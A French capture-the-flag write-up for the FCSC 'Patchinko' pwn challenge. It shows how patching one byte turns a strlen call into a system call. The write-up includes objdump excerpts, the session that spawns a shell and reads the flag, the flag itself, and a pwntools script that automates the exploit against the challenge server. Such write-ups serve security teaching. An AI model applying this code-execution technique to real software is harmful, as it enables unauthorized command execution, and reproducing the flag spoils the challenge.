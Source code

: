 # Patchinko - PWN - 200

> Venez tester la nouvelle version de machine de jeu Patchinko ! Les chances de victoire étant proches de zéro, nous aidons les joueurs. 
> Prouvez qu'il est possible de compromettre le système pour lire le fichier flag.

## Fonctionnement du service

En se connectant au service donné, il nous est gracieusement proposé de patcher un octet du binaire **avant son lancement**.

Nous devons donc tirer profit de ce cadeau du ciel en modifiant un octet nous permettant de lire le flag!

## Analyse du binaire

Le binaire n'est pas très compliqué, il nous demande dans un premier temps notre nom, puis génère 1 nombre aléatoire qu'on doit ensuite deviner ...

On remarque également la présence de **system** qui est suspecte. Elle est utilisée dans le binaire pour afficher un simple message.

Il faudrait donc remplacer le call d'une fonction prenant en premier paramètre une chaîne que l'on contrôle par **system**, ce qui nous permettra d'éxecuter une commande sur le service !

Prenons par exemple **strlen**, qui est un parfait candidat pour ce que nous recherchons !

## Altération du flux d'exécution

Avec objdump, nous récupérons les deux instructions de call vers system et strlen:

```
400853:	e8 78 fe ff ff       	call   4006d0 <system@plt>
400888:	e8 33 fe ff ff       	call   4006c0 <strlen@plt>
```

Un seul octet varie entre les deux !
Nous devons donc modifier l'octet à 0x400889 par la valeur 0x78, ce qui appelera system à la place de strlen lors de l'exécution !

Cependant, dans le fichier, il n'y a pas l'adresse de base, l'offset réel est donc 0x889.

Mais pas si vite ... Le call est relatif et se base sur la valeur de RIP, nous devons donc déduire de cette valeur la différence entre les deux instructions, ce qui nous donne: ```0x78 - (0x400888 - 400853) = 0x43.```

## Récupération du flag

Il nous suffit donc d'indiquer au service de modifier l'octet à l'offset 0x889 par 0x43, puis de taper /bin/sh pour avoir un shell !
Seulement, dans le binaire la taille de l'entrée est limitée à 4 caractères, nous ne pouvons pas rentrer /bin/sh ...

Mais system se base sur le PATH, nous pouvons donc raccourcir notre /bin/sh à un simple sh !

```
At which position do you want to modify (base 16)?
>>> 0x889
Which byte value do you want to write there (base 16)?
>>> 0x43
== Let's go!
Hello! Welcome to Patchinko Gambling Machine.
Is this your first time here? [y/n]
>>> sh
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat flag
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
``` 

Boom, on a le flag !

FLAG: FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}

Niveau automatisation c'est pas ouf, on doit quand même écrire des trucs pour obtenir un shell ...
Un petit script ça ferait pas de mal !

```py
#!/usr/bin/python

from pwn import *

where = 0x0889
what = 0x43

r = remote('challenges1.france-cybersecurity-challenge.fr', 4009)

r.recv()

r.sendline(hex(where))
r.recv()

r.sendline(hex(what))
r.recv()

r.sendline("sh")
r.interactive()
```